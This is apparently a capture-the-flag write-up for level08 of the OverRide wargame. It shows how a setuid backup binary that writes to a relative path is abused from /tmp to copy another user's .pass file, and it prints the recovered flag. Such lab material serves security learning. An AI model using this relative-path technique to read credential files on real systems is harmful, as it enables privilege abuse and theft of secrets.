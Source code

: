 Level08 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

Level08 rights:
```Shell
level08@OverRide:~$ ls -la level08 
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
```

Testing the binary:
```Shell
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
The program takes a file path as argument and makes a backup of its content. However, it can't create the backup because the directory doesn't exist.

We will create the directory that it need but in /tmp to have the right permission, executing the program in /tmp will use our newly directory to do the backup because the backup path is relative.

```Shell
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```